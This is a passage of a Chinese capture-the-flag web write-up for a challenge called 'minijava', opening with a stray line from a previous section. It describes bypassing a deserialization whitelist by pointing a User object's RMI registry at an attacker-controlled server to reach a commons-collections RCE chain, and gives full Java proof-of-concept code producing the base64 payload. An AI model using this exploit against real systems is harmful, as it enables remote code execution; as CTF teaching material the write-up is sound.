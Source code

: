 这部分也是通过搜索得来的，毕竟是你不了解的数据库，最容易的办法自然是通过搜索引擎

## minijava

**by xlccccc**

**最最最最基础的java题**

如果你是一位Java安全大佬，拿到题目附件后

反编译，发现有反序列化入口，同时发现包内有 **commons-collections-3.2.1** 可以反序列化rce

然后你又发现这里对反序列化的类做了白名单过滤

![image-20230510235616880](Web_Writeup.assets/image-20230510235616880.png)

很显然，直接反序列化是无法rce的，接着你去看User的`readObject`

![image-20230510235655449](Web_Writeup.assets/image-20230510235655449.png)

发现此处连接了一个rmi，而这个**registry1**又是你可以控制的，那么你的思路就很明显了，构造一个恶意的**Server**，然后打**RMI反序列化漏洞**，最终可以实现绕过白名单任意反序列化，从而打CC链来rce

```java
package ctf.minil.java.minil;

import ctf.minil.java.minil.bean.User;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class POC {
    public static void main(String[] args) throws Exception {
        User user = new User("L_team", 18);
        Registry registry = LocateRegistry.getRegistry("ip", 1099);
        setFieldValue("registry", registry, user);
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(user);
        byte[] bytes1 = byteArrayOutputStream.toByteArray();
        String encode = java.util.Base64.getEncoder().encodeToString(bytes1);
        System.out.println(encode);
    }

    public static void setFieldValue(String name, Object value, Object obj) throws Exception{
        Field f = obj.getClass().getDeclaredField(name);
        f.setAccessible(true);
        f.set(obj, value);
    }

    // put in User
    private void writeObject(ObjectOutputStream out) throws Exception {
        out.writeInt(114514);
        out.writeByte(2);
        out.defaultWriteObject();
    }
}
```
